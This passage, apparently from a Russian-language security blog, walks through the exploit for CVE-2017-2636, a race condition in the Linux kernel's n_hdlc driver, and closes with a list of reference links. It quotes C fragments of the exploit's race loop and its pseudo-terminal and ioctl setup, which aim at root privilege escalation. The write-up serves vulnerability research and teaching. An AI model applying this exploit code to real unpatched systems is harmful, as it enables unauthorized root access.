 ## Эксплуатация уязвимости

# Выиграть гонку

Разберем код основного цикла эксплойта. Он исполняется, пока не будут получены привилегии пользователя root.

{% highlight c %}
for (;;) {
	long tmo1 = 0;
	long tmo2 = 0;

	if (loop % 2 == 0)
		tmo1 = loop % MAX_RACE_LAG_USEC;
	else
		tmo2 = loop % MAX_RACE_LAG_USEC;
{% endhighlight %}

Счетчик `loop` увеличивается каждую итерацию, изменяются и переменные `tmo1` и `tmo2`. Они задают задержку в конкурирующих потоках исполнения, которые:
 1. синхронизируются на `pthread_barrier`,
 2. ожидают заданное количество микросекунд в холостом цикле,
 3. наконец взаимодействуют с интерфейсом драйвера `n_hdlc`.

Такой способ столкновения потоков исполнения позволяет скорее достичь состояния гонки.

{% highlight c %}
	ptmd = open("/dev/ptmx", O_RDWR);
	if (ptmd < 0) {
		perror("[-] open /dev/ptmx");
		goto end;
	}

	ret = ioctl(ptmd, TIOCSETD, &ldisc);
	if (ret < 0) {
		perror("[-] TIOCSETD");
		goto end;
	}
{% endhighlight %}

Здесь мы открываем псевдотерминал и устанавливаем для него протокол `N_HDLC`. Подробная информация об этом содержится в `man ptmx`, [`Documentation/serial/tty.txt`][17] и [данном обсуждении][18] программных компонентов псевдотерминала.

Установка `N_HDLC` для последовательной линии приводит к автоматической загрузке драйвера `n_hdlc`, поставляемого как модуль ядра. Этот же эффект может быть достигнут с помощью сервиса `ldattach`.

{% highlight c %}
	ret = ioctl(ptmd, TCXONC, TCOOFF);
	if (ret < 0) {
		perror("[-] TCXONC TCOOFF");
		goto end;
	}

	bytes = write(ptmd, buf, TTY_BUF_SZ);
	if (bytes != TTY_BUF_SZ) {
		printf("[-] write to ptmx (bytes)\n");
		goto end;
	}
{% endhighlight %}


[1]: https://www.cve.mitre.org/cgi-bin/cvename.cgi?name=2017-2636
[2]: https://bugzilla.redhat.com/show_bug.cgi?id=CVE-2017-2636
[3]: https://bugzilla.redhat.com/show_bug.cgi?id=1430049
[4]: https://bugzilla.novell.com/show_bug.cgi?id=CVE-2017-2636
[5]: https://security-tracker.debian.org/tracker/CVE-2017-2636
[6]: https://people.canonical.com/~ubuntu-security/cve/2017/CVE-2017-2636.html
[7]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=82f2341c94d270421f383641b7cd670e474db56b
[8]: http://seclists.org/oss-sec/2017/q1/569
[9]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=be10eb7589337e5defbe214dae038a53dd21add8
[10]: https://gruss.cc/files/prefetch.pdf
[11]: https://github.com/xairy/kernel-exploits/tree/master/prefetch-side-channel
[12]: http://lxr.free-electrons.com/ident?i=flush_tx_queue
[13]: http://lxr.free-electrons.com/ident?i=n_hdlc_send_frames
[14]: http://lxr.free-electrons.com/ident?i=n_hdlc_release
[15]: https://github.com/google/syzkaller
[16]: https://github.com/google/syzkaller/wiki/Found-Bugs
[17]: http://lxr.free-electrons.com/source/Documentation/serial/tty.txt
[18]: https://unix.stackexchange.com/questions/117981/what-are-the-responsibilities-of-each-pseudo-terminal-pty-component-software
[19]: https://lwn.net/Articles/612153/
[20]: https://xairy.github.io/blog/2016/cve-2016-2384
[21]: http://vger.kernel.org/~davem/skb_data.html
[21.1]: https://ru.wikipedia.org/wiki/Heap_spraying
[22]: https://speakerdeck.com/retme7/talk-is-cheap-show-me-the-code
[23]: http://keenlab.tencent.com/en/
[24]: http://lxr.free-electrons.com/source/include/linux/skbuff.h
[25]: http://lxr.free-electrons.com/ident?i=skb_release_data
[26]: http://vulnfactory.org/blog/2011/06/05/smep-what-is-it-and-how-to-beat-it-on-linux/
[27]: https://www.syscan360.org/slides/2016_SG_Vitaly_Nikolenko_Practical_SMEP_Bypass_Techniques.pdf
[28]: http://lxr.free-electrons.com/source/arch/x86/include/asm/special_insns.h
[29]: https://www.ptsecurity.com/ww-en/